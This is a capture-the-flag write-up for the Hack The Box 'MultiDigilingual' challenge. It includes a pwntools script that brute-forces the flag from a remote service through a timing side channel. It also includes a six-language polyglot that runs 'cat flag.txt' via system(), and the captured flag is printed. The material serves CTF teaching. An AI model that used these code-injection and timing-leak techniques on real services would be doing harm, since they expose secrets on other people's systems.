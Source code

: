 # MultiDigilingual

## Solution 1 (unintended?)
Accessing the challenge, we get clear instructions. We somehow need to develop a single program that will run code in 6 different languages.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/db857144-6fcd-422c-84fa-ac7271c7d4ab)

A simple python code to open and read the flag works and then it goes to try and execute perl and fails. That's normal given that I have only provided python code.

Seeing that python code gets executed first, let's abuse that and get the flag out character by character. If the flag contains HTB, sleep 1, add the valid character to the list, if it contains HTB{ sleep 1, add the valid character to the list etc. Standard bruteforcing, slow but doable:  

```python3
from pwn import *
import base64
import time
import string
import warnings
warnings.filterwarnings('ignore')

chars = string.ascii_letters + string.digits + '_}'
flag = ''
found_curly_brace = False

while not found_curly_brace:
    for c in chars:
        python_code = '''
import time

with open('flag.txt') as fp:
    result = fp.read()
    print(result)
    if 'HTB{%s' in result:
        time.sleep(1)
        ''' % (flag + c)

        r = remote('94.237.62.241', 57116)
        start_time = time.time()
        r.recvuntil('languages: ')
        payload = base64.b64encode(python_code.encode())
        r.sendline(payload)
        r.recvall()
        end_time = time.time()
        elapsed_time = end_time - start_time

        if elapsed_time > 1:
            print('HTB{' + (flag+c))
            flag += c
            if c == '}':
                found_curly_brace = True  
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/51e04b62-56cd-4d8b-818d-ed75a5dbf12a)

Since it's slow, we leave this running and focus on other challenges or grab a beer and we get the flag... eventually:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0f78ded7-601c-4b12-b9d6-80857f5bd29d)

## Solution 2

The smarter solution is to use a `polyglot` because after all, that's exactly what they are describing. Google searching a perl python polyglot, the first result mentions some of the other languages we need to run code for as well:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/290c7e86-38ca-43df-bd2a-ae5f06f1bc63)

[This](https://github.com/floyd-fuh/C-CPP-Perl-Ruby-Python-Polyglot) seems to be exactly what the challenge expects us to provide but we are missing PHP from the lot, so we modify the code to look something like this:  

```c
#define a "cat flag.txt"
#define b "cat flag.txt"
#include/*
q="""*/<stdlib.h>
int main(){if(sizeof('C') - 1) system(a);
    else   {system(b);}} /*=;
print(`cat flag.txt`)#";puts File.read('flag.txt')#";<?=$f=file_get_contents('flag.txt');#""";print(open('flag.txt').read())#*/
```
We base64 encode that and pass it and get the flag via the intended way:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b6d4e3fd-d364-459f-aa3c-a50bb33cca0f)

`HTB{7he_ComMOn_5yM8OL5_Of_l4n9U49E5_C4n_LE4d_7O_m4ny_PolY9lO7_WoNdeR5}`
